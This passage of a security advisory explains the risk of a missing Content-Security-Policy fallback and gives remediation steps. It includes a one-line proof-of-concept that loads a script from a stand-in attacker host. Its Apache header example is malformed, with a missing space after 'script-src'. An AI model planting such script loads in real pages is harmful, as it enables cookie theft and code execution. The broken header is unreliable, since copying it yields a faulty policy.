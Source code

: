 CSP can be applied in various parts of the web stack:
- Web server configuration: The CSP header is set by the web server.
- Application server configuration: The CSP header can be set by the application server.
- Client-side code: The CSP can be set in the HTML of the page.

The direct security principle being violated is the principle of least privilege, as the browser is not restricted in what resources it can load, potentially allowing malicious scripts to execute.

### Impact Analysis
The specific consequences of not defining a CSP directive with no fallback include:
- Increased risk of XSS attacks, as the browser has no restrictions on the scripts that can be executed.
- Potential for data theft, as the browser may load scripts that can access sensitive information.
- Reduced security posture, as the browser does not have the protection provided by a properly configured CSP.

### Exploitation Details
An attacker might exploit this vulnerability by:
1. Identifying a page that does not have a CSP header or has a CSP header with no fallback directives.
2. Crafting a malicious script that performs the desired attack (e.g., stealing cookies, executing arbitrary code).
3. Hosting the malicious script on a server that the browser can access.
4. The browser loads the malicious script, potentially leading to the desired outcome.

A simple proof-of-concept might look like this:
```html
<script src="http://malicious.example.com/malicious.js"></script>
```
This script would be hosted on a server controlled by the attacker and would be loaded by the browser without any restrictions due to the missing CSP.

Common tools used for exploiting CSP misconfigurations include:
- Burp Suite for intercepting and modifying HTTP requests
- OWASP ZAP for scanning and testing web applications
- CSP Evaluator for analyzing CSP policies

### Step-by-Step Remediation
To remediate this issue, follow these steps:
1. Identify all pages that do not have a CSP header or have a CSP header with no fallback directives.
2. Ensure that the web server, application server, or load balancer is properly configured to set the CSP header.
3. Define all necessary directives in the CSP, including the `default-src` directive with a fallback to `none` or a specific list of allowed sources.
4. Implement a web application firewall (WAF) to help prevent CSP bypass attempts.

For example, in an Apache configuration, you can use the `mod_headers` module to set a CSP:
```apache
Header set Content-Security-Policy "default-src 'none'; script-src'self';"
```
This policy will block all scripts by default and only allow scripts from the same origin as the page.
